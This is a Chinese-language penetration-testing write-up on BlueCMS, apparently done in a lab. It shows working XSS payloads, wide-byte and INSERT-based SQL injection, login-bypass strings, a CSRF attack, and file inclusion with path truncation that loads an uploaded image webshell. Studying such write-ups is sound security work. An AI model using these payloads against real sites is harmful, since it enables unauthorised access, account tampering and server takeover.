# bluecms

## 1. 页面分析

### 1.1 用户中心

#### 1.1.1 邮箱回显
我们先注册一个账号，然后登录到用户中心。



在用户中心，我们可以查看到注册时填写的邮箱会回显至网页页面,这可能存在xss以及sql的二次注入。

#### 1.1.2 新闻发布

在新闻发布页面，我们可以发布新闻,可以上传缩略图。



这可能存在xss,sql的二次注入以及文件上传漏洞。

#### 1.1.3 个人资料

在个人资料页面，我们可以查看和修改个人信息,可以上传头像。



这可能存在xss,sql的二次注入,文件上传漏洞以及csrf漏洞。

## 2. 漏洞利用

### 2.1 邮箱回显

#### 2.1.1 xss

我们可以在用户注册构造如下两个payload分别用来测试xss和sql的二次注入



```
admin'#

admin@admin.com<script>alert(1)</script>
```



我们可以发现xss执行成功,但是sql的二次注入失败。

#### 2.1.2 sql注入

##### 2.1.2.1 报错+宽字节注入

可以明显发现在'前加\进行转义,我们可以尝试宽字节绕过。
```
admin%df'#
```



尝试宽字节时报错,因为注册代码并未对#进行转义,导致出现sql错误,因此我们得到了sql的原始代码

存在报错,尝试报错注入,因为用户名存在检测限制,我们在邮箱参数处进行注入

```sql
test@test.com %df' or updatexml(1,concat(0x7e,(SELECT database())),1),1,1)#
```



宽字节注入成功,但是这里没有执行成功



但是在navicat中执行成功,因此我们可以确定这是一个sql注入漏洞。

##### 2.1.2.2 Insert注入

我们通过报错得到了原始的sql语句为:

```sql
INSERT INTO blue_user (user_id, user_name, pwd, email, reg_time, last_login_time) VALUES ('', 'test3', md5('test123'), 'test@test.com' , '1760603824', '1760603824')
```

因为insert可以插入多个值,因此我们可以尝试插入多个值,并且在email参数处进行注入

```sql
INSERT INTO blue_user (user_id, user_name, pwd, email, reg_time, last_login_time) VALUES ('', 'test3', md5('test123'), test@test.com', '1760603824', '1760603824')
```

我们可以构造如下payload来测试insert注入

```sql
test@test.com %df',1,1),(100,0x27746573743427,md5(123456),select database(),1,1)#
```

'test4'->0x27746573743427
这里尽量不使用'避免出现转义问题,用户名这使用16进制绕过转移限制



注册成功,我们登录查看邮箱处是否注入成功



邮箱处成功回显的当前数据库名,注入成功
之后可批量注册用户用于跑数据库内的其他数据

##### 2.1.2.3 万能密码

在用户注册页面我们尝试注册admin时,发现已存在admin用户,因此猜测为管理员用户



我们使用万能密码登录

```sql
%df' or 1=1#
```

登录成功,但是提示我们不能从前台登录,只能从后台登录


进入后台后,我们使用同样的payload登录失败


我们需要重新构造payload为

```sql
%df') or 1=1#
```

登录成功



### 2.2 新闻发布

#### 2.2.1 文件上传

我们发布一个文章,并上传一个图片作为缩略图



此处为白名单限制,只能配合文件包含漏洞getshell

#### 2.2.2 xss

##### 2.2.2.1 新闻内容xss

我们重新发布文章,并在内容处写入xss代码

但是在新闻内容处,我们发现xss代码未被执行,查看网页源代码



发现xss代码被实体化,因此无法执行xss代码

##### 2.2.2.2 评论区xss

在评论区写入xss代码

```html
<script>alert('xss')</script>
```

查看源代码,发现同样被实体化,因此无法执行xss代码


### 2.3 个人资料

#### 2.3.1 xss

在个人资料处,我们统一修改为123用于测试



查看个人资料,可以发现123被成功回显



通过分析网页源代码,可以发现构造的123'的并没有被实体化,并且img标签的闭合方式为双引号



我们可以在个人资料处构造如下payload来测试xss漏洞



```html
123" onerror=alert('img') "
<script>alert('MSN')</script>
<script>alert('QQ')</script>
<script>alert('办公电话')</script>
<script>alert('家庭电话')</script>
<script>alert('手机')</script>
<script>alert('地址')</script>
```

查看个人信息只有img弹出,其他的均未弹出,其中qq因为数据库接受长度限制,因此只能回显部分xss代码



#### 2.3.2 文件上传

在个人资料处,我们可以上传头像,我们先正常上传一张图片,查看是否上传成功



上传成功

接下来我们可以尝试上传一个不存在的后缀文件,看看是白名单还是黑名单限制,或者没有限制

抓包修改后缀为随机后缀



发现上传失败,那这里为白名单限制


此处可利用的点只存在上传图片马配合文件包含getshell

#### 2.3.3 csrf

我们创建两个用户分别为test和test1,并分别登录
其中test修改个人资料为如图并抓包



在bp中利用csrf的POC模块构建一个html攻击页面,使用登录test1用户的浏览器访问该页面,即可实现csrf攻击



如图为未点击攻击按钮前的个人资料



在网站上将csrf攻击页面部署到服务器上,并使用登录test1用户的浏览器访问该页面,即可实现csrf攻击



点击攻击按钮后,个人资料被修改为如图



### 2.4 充值中心

#### 2.4.1 文件包含

通过审计源码,发现充值中心存在文件包含漏洞



```php
elseif ($act == 'pay'){
 	include 'data/pay.cache.php';
 	$price = $_POST['price'];
 	$id = $_POST['id'];
 	$name = $_POST['name'];
 	if (empty($_POST['pay'])) {
 		showmsg('对不起，您没有选择支付方式');
 	}
 	include 'include/payment/'.$_POST['pay']."/index.php";
 }
```

不过,这里值得我们注意的是,后面还拼接了/index.php,因此我们要成功包含我们上传的图片马,就需要截断/index.php

这里可以有两种方式

1. 利用%00截断 
   条件：magic_quotes_gpc = Off，PHP版本<5.3.4

2. 利用填充字符超出长度限制,导致截断
   条件：windows 下目录路径最大长度为256字节，超出部分将丢弃；linux 下目录最大长度为4096字节，超出长度将丢弃；PHP版本<5.2.8

我们先上传一个图片马



在网页查看源代码,可以发现图片马的路径为



路径:data/upload/face_pic/17606101920.png

我们在充值界面抓包后点击在线支付得到act=pay的包



##### 2.4.1.1 利用%00截断

我们在pay参数后添加%00截断



这里包含为空,可能是php版本问题




##### 2.4.1.2 利用填充字符超出长度限制

我们在pay参数后添加填充字符,直到超出长度限制

payload为:
```
pay=../../data/upload/face_pic/17606101920.png...........................................................................................................................................................................................................................................................................
```

但是也是包含为空,可能是php版本问题

查找资料后发现版本要低于5.2.17才可以截断成功

成功结果如下



后续可以通过蚁剑等webshell管理工具进行连接拿到shell

## 3. 漏洞分析

### 3.1 邮箱回显

#### 3.1.1 xss+sql

都是对用户输入的内容过滤不严,导致xss,sql的二次注入,insert注入以及万能密码

#### 3.1.2 文件上传+文件包含

个人资料处存在文件上传漏洞,但只存在白名单限制,因此只能上传图片马配合文件包含getshell,并且文件包含的利用条件较隐蔽

#### 3.1.3 csrf

因为不使用token进行防御,所以个人资料处存在csrf漏洞,但是只存在于post请求,需要配合xss或者钓鱼攻击


